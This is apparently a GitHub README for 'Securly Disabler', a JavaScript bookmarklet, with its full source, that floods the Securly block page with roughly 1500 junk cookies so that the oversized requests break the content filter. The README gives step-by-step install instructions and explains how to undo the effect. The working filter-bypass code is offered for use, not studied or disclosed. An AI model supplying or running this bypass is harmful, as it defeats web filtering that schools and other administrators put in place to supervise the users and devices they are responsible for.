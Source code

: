 # Securly Disabler
This can disable securly by overloading packet sizes.
## Install
First, go to a blocked page (ex. https://minecraft.net, https://coolmathgames.com, etc.).  
Then, bookmark that page.  
Modify that bookmark and add the following contents instead:
```js
javascript:if("https://useast-www.securly.com"!==window.location.origin)throw"flying bird";window.cookie="";var _=new Blob;function sleep(e){return new Promise(o=>setTimeout(o,e))}async function main(){for(let e=0;e<1500;e++)document.cookie=URL.createObjectURL(_)+"="+URL.createObjectURL(_),URL.revokeObjectURL(_),document.title="🐦 "+e+"/1500",await sleep(10);document.title="🐦 Done!",window.location.replace("https://google.com")}main();
```
Click on it, and wait for it to redirect you to google.
## Uninstall
Go to https://useast-www.securly.com/404.html, and click on the padlock.  
After that, click on cookies.  
Click on securly.com, and click remove.  
And click on useast-www.securly.com, and click remove.  
Click done.
## Source
```js
if (window.location.origin !== "https://useast-www.securly.com") throw "flying bird";
window.cookie = "";

var _ = new Blob();

function sleep(ms) {
  return new Promise((resolve) => setTimeout(resolve, ms));
}

async function main() {
    for (let i = 0; i < 1500; i++) {
        document.cookie = URL.createObjectURL(_) + "=" + URL.createObjectURL(_);
        URL.revokeObjectURL(_);

        document.title = "🐦 " + i + "/1500";
        await sleep(10);
    }

    document.title = "🐦 Done!";

    window.location.replace("https://google.com");
}

main();
```
